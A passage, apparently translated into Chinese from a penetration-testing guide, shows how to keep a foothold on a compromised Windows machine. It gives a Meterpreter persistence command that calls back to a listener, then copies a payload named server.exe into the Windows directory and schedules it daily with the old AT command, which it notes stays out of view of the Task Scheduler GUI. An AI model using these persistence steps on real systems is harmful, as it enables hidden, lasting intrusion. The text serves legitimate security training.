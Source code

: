 为了设置这个，我们将使用以下设置：

```
run persistence -U -S -i 15 -p 4444 -r 172.16.42.215  
```

![](img/d72f78a3-71d8-47c7-9ac6-1c48d6211492.png)

哦好吧；不可用的 RPC 服务再次让我们失望，所以让我们尝试一个更古老的方法：`AT`命令。`AT`命令是任务计划程序，可以追溯到 NT 3.51 的时代，只能从命令行运行。这也使它具有一些隐蔽性，因为使用`AT`调度的任务不会显示在任务计划程序的 GUI 版本中。它们是两个独立的应用程序，不共享作业。AT 服务很像 Linux 和 UNIX 上的 Cron。这些系统上也有一个`AT`调度程序。

因此，要从 Meterpreter 转到远程 shell，请运行此命令：

```
Shell  
```

首先，将有效载荷从`Temp`目录移动到`Windows`目录，这样有效载荷将在不使用完整路径的情况下运行：

```
copy C:\Windows\Temp\server.exe C:\Windows\server.exe  
```

从远程 shell 中运行以下命令，以确保计划程序服务正在运行：

```
net start "task scheduler"
at 23:30 /every:M,T,W,TH,F,SA,SU server.exe  
```

![](img/960aafe0-61b8-4baf-844d-68f778c06563.png)
